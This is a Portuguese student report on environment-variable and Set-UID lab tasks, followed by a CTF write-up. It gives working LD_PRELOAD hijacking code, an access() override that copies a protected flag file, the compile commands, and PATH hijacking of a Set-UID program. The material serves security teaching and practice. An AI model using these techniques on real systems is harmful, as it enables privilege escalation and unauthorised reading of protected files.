




# Task1

Num primeiro momento, criamos uma variável ZZZ com valor "hello" com o comando `$ export ZZZ=hello`.<br><br> 
De seguida damos print a essa variável fazendo `$ printenv ZZZ`. 
<br><br>
Depois eliminamos essa variável usando o comando `$ unset ZZZ`. Fazer só printenv sem argumentos à frente imprime todas as variáveis de sistema existentes.


# Task2

Ao fazermos o que foi pedido, reparamos que os dois ficheiros criados são exatamente iguais, ou seja as variáveis de ambiente do pai são herdadas pelo filho.


# Task 3

Num primeiro momento, quando compilamos e corremos o ficheiro `myenv.c`, como temos um elemento `NULL` na função `execve`, as variáveis de ambiente vão ter um valor nulo. Com isto é originado um output vazio. <br><br>
Após substiturirmos `NULL` por `environ`, dá-se print às variáveis ambiente.


# Task 4

Este novo programa quando usa a função `system("usr/bin/env)`  faz um `fork()` que cria um processo filho que vai dar print às variáveis ambiente do novo processo.


# Task 5

Ao criar o programa pedido, são nos mostradas as variáveis ambiente.<br><br>
Ao dar run às linhas `$ sudo chown root <nome>` e `$ sudo chmod 4755 <nome>`, mudamos o owner do programa para root e tornamo-lo um Set-UID.<br>

De seguida, ao dar run aos comandos:<br><br>
`$ export PATH=$PATH:/home/seed/temp`<br>
`$ export LD_LIBRARY_PATH=home/seed/files/`<br>
`$ export PRIVATE_NAME=NAME`<br>

correu-se novamente o programa e verificou-se que a variável ambiente `LD_LIBRARY_PATH` não estava incluída.


# Task 6

Criou-se um programa Set-UID que utiliza o comando `system("ls")`.<br><br>
De seguida, criou-se um programa com o nome `ls` (apenas dava print a uma string aleatória) e mudou-se a variável ambiente do `ls` para o diretório com o programa falso `export PATH/home/seed/Desktop/FSI/ls` <br><br>
Com isto, chegou-se à conclusão que o programa Set-UID usou a função `ls` errada, tendo dado print à string criada no programa falso.


# CTF Semana 4 (Linux Environment)

## Descrição
Foi-nos fornecido um servidor Linux que se encontra na porta 4006 do host ctf-fsi.fe.up.pt, ao qual acedemos usando o programa *netcat* .
<code>nc ctf-fsi.fe.up.pt 4006</code>

## Análise do problema
A pasta *home* contém outra pasta chamada *flag_reader*, dentro da qual não temos permissão de escrita. Nela estão localizados os seguintes ficheiros:



Os ficheiros principais a considerar são `main.c`, `reader` (o ficheiro anterior compilado) e `my_script.sh`, que representam um ficheiro C com uma função que acede à flag que pretendemos encontrar, e um script que acede às variáveis de ambiente e executa `reader`. 





Como o administrador tem acesso à flag e o script executa `reader`, teremos de dar override a alguma função que nele seja chamada.

Sendo assim, decidimos dar override à função `access`, e a pasta onde o faremos será `/tmp`, onde temos total acesso e permissões.

## Resolução do problema
Na pasta `/tmp`, criámos este ficheiro C com o override da função `access`, com o seguinte código:

```C
#include <stdlib.h>
int access(const char* pathname, int mode){
    system("/bin/cat /flags/flag.txt > /tmp/flag");
    return 0;
}
```

Chamámos ao ficheiro `a.c`, um nome fora do habitual (lib.c, access.c, code.c, hack.c, ...) para facilitar a distinção entre outros possíveis colegas que estivessem a tentar resolver o CTF simultaneamente.

O que o ficheiro faz é, partindo do princípio que o script é executado com permissões, executar o comando `cat` transferindo o conteúdo do ficheiro `flag.txt` para outro ficheiro onde possamos aceder.

Agora o que teremos de fazer é criar o ficheiro onde guardar a flag, compilar a library e definir a variável de ambiente para que o terminal aceda a esta library criada por nós e a tome como prioritária na execução do programa.

## Criação do ficheiro

Usámos os comandos touch, para criar o ficheiro, e chmod, para alterar as permissões (neste caso, os três 7 representam o código binário das permissões de cada um dos 3 tipos de utilizadores - dono do ficheiro / dono do grupo / outros utilizadores - e o 7 é a representação decimal do número binário 111, que representa permissão de ler, escrever e executar, respetivamente).

```shell
touch flag
chmod 777 flag
```

## Compilação da library

Recorrendo ao guião das aulas práticas, compilámos a library usando os seguintes comandos

```shell
gcc -fPIC -g -c a.c 
gcc -shared -o liba.so.1.0.1 a.o -lc
```

## Alteração da variável de ambiente

O último passo é alterar a variável de ambiente LD_PRELOAD, que determina as libraries partilhadas, e atribuir a localização da library que criámos.

Decidimos guardar a variável num ficheiro `env`, localizado em `/tmp`.

```shell
echo "LD_PRELOAD=/tmp/liba.so.1.0.1" > env
```

## Final
Finalmente, bastava-nos esperar que o script fosse executado automaticamente, e após uns momentos o ficheiro `flag` já continha o que pretendíamos, e assim deu-se por concluído o CTF da Semana 4.


